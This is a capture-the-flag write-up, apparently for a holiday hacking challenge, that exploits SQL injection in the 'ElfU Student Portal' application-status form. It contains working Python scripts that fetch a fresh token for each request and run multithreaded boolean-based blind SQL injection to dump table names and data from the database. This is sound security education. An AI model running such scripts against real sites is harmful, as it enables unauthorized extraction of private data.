

# ElfU Student Portal

## Initial Web App Exploration

The web application basically allows users to apply to ElfU by submitting a simple form, and then allows users to check on their application status by submitting an email address. 


## Check Application Status

If we submit an application with the email `testing123@example.com` to `application-check.php`, and then proceed to check the application status of that email, the web application shows us the message that the application is still pending.


If however, we ask for the application status of a non-existant email, we get back a message that no application was found with that email address.


There is probably some way that the web application is using the email address we supply to it to check on the application status, or at least it checks that the email address exists somewhere. It is likely to be some form of database application behind the scenes.

## SQL Injection Testing

What happens if we give it a typical SQL Injection then? We submit `'@example.com`.


Not only do we throw an error on the page, but the web application gives us a gratuitous amount of information!
1. We now know the exact query made to the database application is `SELECT status FROM applications WHERE elfmail = '<user_input>'`
2. We also know that the database is MariaDB, informing us about the schema of the database.

If we try to submit the same request to the web application again, we see a different error stating that the token is invalid or expired.


Looking into the actual web request made, we see that there is some Base64-encoded parameter labelled `token`. Further exploration into where this token comes from shows that the token is generated when a GET request is made to `validator.php`.



Hence, we need to make a request to `validator.php` prior to our SQL Injection so that we have a valid token.

## Fixing Our SQL Injection Query

Let's see what happens if we grab a valid token from `validator.php` and submit a syntactically correct SQL query with our injection such as `asdifj' UNION SELECT 1 -- ` in order to guess at what happens if the query gets back a response of `1`. We use the following <a href='src/test.py'>python script</a> to perform this test.

```
import requests
import bs4
import urllib.parse


def get_token():
    validator_req = "https://studentportal.elfu.org/validator.php"
    validator_res = requests.get(validator_req)
    token = validator_res.content.decode('utf-8').replace('=','%3D')
    return token
       
def sql_query(query):
    query = urllib.parse.quote(query)
    application_req = "https://studentportal.elfu.org/application-check.php"
    application_req += "?token=" + get_token() + "&elfmail=" + query
    application_res = requests.get(application_req)
    response = bs4.BeautifulSoup(application_res.content, features="html.parser").p.text.strip()
    return response


query = "asdifj' UNION SELECT 1 -- "
print(sql_query(query))
```


We get an interesting message regarding Krampus' secrets. Perhaps we should spend some more time digging in the database.

## Blind SQL Injection

Since the results of the SQL Injection are not directly dumped back to us on the client side, we will need to make use of Blind SQL Injection techniques in order to infer the dumped data. At this point, it may seem that using an automated tool such as `sqlmap` would be a good idea. However, since there is a need to get a new token each time we make a web request, we would need to integrate the call to `validator.php` into the script. This is possible, albeit painful, by integrating `sqlmap` with `burp suite` or using `tamper scipts` in `sqlmap` to add in the token from `validator.php`. For the sake of education and in the spirit of self-sufficiency, I opted to script out the entire Blind SQL Injection process instead.

Since we know we will get a response that tells us when no applications are found for a given SQL query, we can make use of Boolean-Based SQL Injection to get our dumped data.

Our query will look like:

`SELECT status FROM applications WHERE elfmail = 'asdifj' UNION SELECT <column_name> FROM <table_name> WHERE <column_name> LIKE '<payload>%'`

We use `asdifj` as our dummy search query to ensure that the original query returns no results.

We then do a `UNION` to add another query to the original.

Since the original query had just one column (`status`), we can only have one column in our new query.

We need to specify a `table_name` and a `column_name`.

The final part of the new query is a `LIKE` statement, that allows us to match substrings instead of the entire word. The `%` symbol denotes a wildcard for zero or more characters, and it will be appended to the end of our `payload` variable.

Our `payload` will be made up of a set of characters that we would like to have the script brute force through. If a match is found, we will add another character to the payload and continue to run through the whole character set until no more matches are found.

If we put all that in a for loop for a given character set and look at the responses, we can enumerate any data inside the database. Admittedly, this can be a very slow process depending on the character set. However, since each request is independent of each other, we can use multithreading to drastically speed up the process. You will find all this implemented in the following <a href='src/dump_tables.py'>python script</a> which will basically dump out all the table names.

```
import requests
import threading
import queue
import bs4
import urllib.parse
import sys

char_set = list("./0123456789abcdefghijklmnopqrstuvwxyz")
payloads = ['']
results = []
que = queue.Queue()
threads = []


def sql_dump(payload):
    for char in char_set:
        x = threading.Thread(target=lambda que,
                             payload, char:
                             que.put(sql_query(payload, char)),
                             args=(que, payload, char))
        threads.append(x)
        x.start()
    for thread in threads:
        thread.join()
    temp = []
    while not que.empty():
        temp.append(que.get())
        threads.pop()
    if True not in temp:
        results.append(payload)

def get_token():
    validator_req = "https://studentportal.elfu.org/validator.php"
    validator_res = requests.get(validator_req)
    token = validator_res.content.decode('utf-8').replace('=','%3D')
    return token
       
def sql_query(payload, char):
    query = "asdifj' UNION SELECT table_name FROM information_schema.tables WHERE table_name LIKE '" + payload + char + "%"
    query = urllib.parse.quote(query)

    application_req = "https://studentportal.elfu.org/application-check.php"
    application_req += "?token=" + get_token() + "&elfmail=" + query
    application_res = requests.get(application_req)

    response = bs4.BeautifulSoup(application_res.content, features="html.parser").p.text.strip()
    if response != "No application found!":
        payloads.append(payload + char)
        print(payload + char + '\n', end='')
        return True
    return False
    

while payloads:
    payload = payloads.pop(0)
    sql_dump(payload)
print(results)
```


It takes about 10 minutes to get the results. Out of all the tables, the one that most interests us is `krampus`. We make some modifications to the query in the previous code to dump the column names from the `krampus` table. You can find the python script <a href='src/dump_columns.py'>here</a>.


So there are only 2 columns. We are interested in `path` as it should tell us where the files with the flag should be. Again, we make some modifications to the query in order to dump out the data in `path` of `krampus`. You can find the python script <a href='src/dump_data.py'>here</a>.


## Finding The Scraps Of Paper

If we navigate to https://studentportal.elfu.org/krampus, we will come across the following message.


Thankfully, we already have the full path of the files we need. If we grab all the images and reassemble the paper, we get the following message.


